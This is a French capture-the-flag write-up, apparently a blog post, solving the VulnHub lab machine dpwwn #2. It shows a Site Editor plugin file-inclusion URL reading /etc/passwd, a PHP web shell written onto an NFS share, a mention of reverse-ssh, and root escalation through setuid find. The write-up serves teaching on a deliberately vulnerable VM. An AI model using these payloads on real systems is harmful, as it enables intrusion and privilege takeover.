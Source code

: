 ```yaml
---
title: "Solution du CTF dpwwn #2 de VulnHub"
tags: [CTF, VulnHub]
---
```


Le CTF [dpwwn: 2](https://vulnhub.com/entry/dpwwn-2,343/) est très classique dans sa réalisation mais permettra aux débutants en CTF d'apprendre quelques choses.

Je commence par un scan Nmap qui me révèle la présence d'un Wordpress :

```console
$ sudo nmap -sCV -p- -T5 --script vuln 192.168.56.190
[sudo] Mot de passe de root : 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 10:06 CEST
Nmap scan report for 192.168.56.190
Host is up (0.00023s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
80/tcp    open  http     Apache httpd 2.4.38 ((Ubuntu))
| vulners: 
|   cpe:/a:apache:http_server:2.4.38: 
|       CVE-2019-9517   7.8     https://vulners.com/cve/CVE-2019-9517
|       PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631      *EXPLOIT*
|       EDB-ID:51193    7.5     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
--- snip ---
|       CVE-2022-36760  0.0     https://vulners.com/cve/CVE-2022-36760
|_      CVE-2006-20001  0.0     https://vulners.com/cve/CVE-2006-20001
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|   /wordpress/: Blog
|_  /wordpress/wp-login.php: Wordpress login page.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache/2.4.38 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      38886/udp   mountd
|   100005  1,2,3      43075/tcp6  mountd
|   100005  1,2,3      44328/udp6  mountd
|   100005  1,2,3      50777/tcp   mountd
|   100021  1,3,4      35477/tcp6  nlockmgr
|   100021  1,3,4      39079/tcp   nlockmgr
|   100021  1,3,4      42544/udp6  nlockmgr
|   100021  1,3,4      60931/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
443/tcp   open  http     Apache httpd 2.4.38 ((Ubuntu))
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| vulners: 
|   cpe:/a:apache:http_server:2.4.38: 
|       CVE-2019-9517   7.8     https://vulners.com/cve/CVE-2019-9517
|       PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631      *EXPLOIT*
|       EDB-ID:51193    7.5     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
--- snip ---
|       CVE-2022-36760  0.0     https://vulners.com/cve/CVE-2022-36760
|_      CVE-2006-20001  0.0     https://vulners.com/cve/CVE-2006-20001
| http-enum: 
|   /wordpress/: Blog
|_  /wordpress/wp-login.php: Wordpress login page.
|_http-server-header: Apache/2.4.38 (Ubuntu)
|_http-dombased-xss: Couldn't find any DOM based XSS.
2049/tcp  open  nfs_acl  3 (RPC #100227)
38091/tcp open  mountd   1-3 (RPC #100005)
39079/tcp open  nlockmgr 1-4 (RPC #100021)
44503/tcp open  mountd   1-3 (RPC #100005)
50777/tcp open  mountd   1-3 (RPC #100005)
```

`nfs` est présent avec `mountd`. On peut utiliser `showmount` pour lister les partages :

```console
$ showmount -e 192.168.56.190
Export list for 192.168.56.190:
/home/dpwwn02 (everyone)
```

Le dossier en question est vide, mais il va vite devenir utile.

En regardant le code source du Wordpress je vois des références au plugin `Site Editor` :

```html
<!-- Built With SiteEditor | http://www.siteeditor.org --> 
<script type='text/javascript' src='http://10.10.10.10/wordpress/wp-content/plugins/site-editor/framework/assets/js/sed_app_site.min.js?ver=1.0.0'></script>
<script type='text/javascript' src='http://10.10.10.10/wordpress/wp-content/plugins/site-editor/assets/js/livequery/jquery.livequery.min.js?ver=1.0.0'></script>
<script type='text/javascript' src='http://10.10.10.10/wordpress/wp-content/plugins/site-editor/assets/js/livequery/sed.livequery.min.js?ver=1.0.0'></script>
```

Ce dernier est vulnérable à une (vrai) faille d'inclusion :

[WordPress Plugin Site Editor 1.1.1 - Local File Inclusion - PHP webapps Exploit](https://www.exploit-db.com/exploits/44340)

Je peux ainsi lister les utilisateurs avec cette URL :

`http://192.168.56.190/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

Je remarque la présence d'un compte `rootadmin` :

```
rootadmin:x:1000:1000:rootadmin:/home/rootadmin:/bin/bash
```

On va avoir notre première utilité du partage NFS : on va copier une backdoor PHP dedans et l'appeler via l'inclusion.

```console
$ sudo mount 192.168.56.190:/home/dpwwn02/ /mnt/
$ echo '<?php system($_GET["cmd"]); ?>' | sudo tee /mnt/shell.php
```

Je profite aussi du nfs pour déposer un reverse-ssh.

Une fois un shell récupéré, je vérifie les paramètres du partage nfs et rien ne semble empêcher de déposer des binaires `setuid` :

```console
www-data@dpwwn-02:/home/rootadmin$ cat /etc/exports 
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/home/dpwwn02       *(rw,root_squash)
/home/dpwwn02       10.10.10.100(rw,no_root_squash)
```

Seulement, le owner semble automatiquement droppé pour devenir `nobody` :

```console
$ sudo cp bash /mnt/
$ sudo chmod 4755 /mnt/bash 
$ ls -al /mnt/bash
-rwsr-xr-x 1 nobody nobody 1166912 30 avril  2023 /mnt/bash
```

NFS ne sera pas aujourd'hui notre solution pour passer root.

Une recherche sur les binaires setuid remonte la commande `find` :

```console
www-data@dpwwn-02:/home/rootadmin$ find / -type f -perm -u+s -ls 2> /dev/null 
      656     36 -rwsr-xr-x   1 root     root        34896 Mar  5  2019 /usr/bin/fusermount
      839     64 -rwsr-xr-x   1 root     root        63736 Mar 22  2019 /usr/bin/passwd
      551     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /usr/bin/chsh
     1120     36 -rwsr-xr-x   1 root     root        34888 Feb 22  2019 /usr/bin/umount
      648    312 -rwsr-xr-x   1 root     root       315904 Feb 16  2019 /usr/bin/find
     1051    156 -rwsr-xr-x   1 root     root       157192 Feb 19  2019 /usr/bin/sudo
      792     48 -rwsr-xr-x   1 root     root        47184 Feb 22  2019 /usr/bin/mount
--- snip ---
```

On va utiliser l'option `-exec` bien connue. Je spécifie des paramètres de recherche dont je sais qu'ils ne renverront qu'un seul résultat pour éviter que la commande ne soit lancée plusieurs fois (même si pour un `chmod` ce n'est pas grave) :

```console
www-data@dpwwn-02:/home/dpwwn02$ find /etc -name passwd -exec chmod 4755 /bin/dash \;
www-data@dpwwn-02:/home/dpwwn02$ dash -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# cd /root
# ls
dpwwn-02-FLAG.txt  snap
# cat dpwwn-02-FLAG.txt

Congratulation! You PWN this dpwwn-02. Hope you enjoy this boot to root CTF.
Thank you. 

46617323 
24337873 
4b4d6f6f 
72643234 
40323564 
4e443462 
36312a23 
26724a6d
```
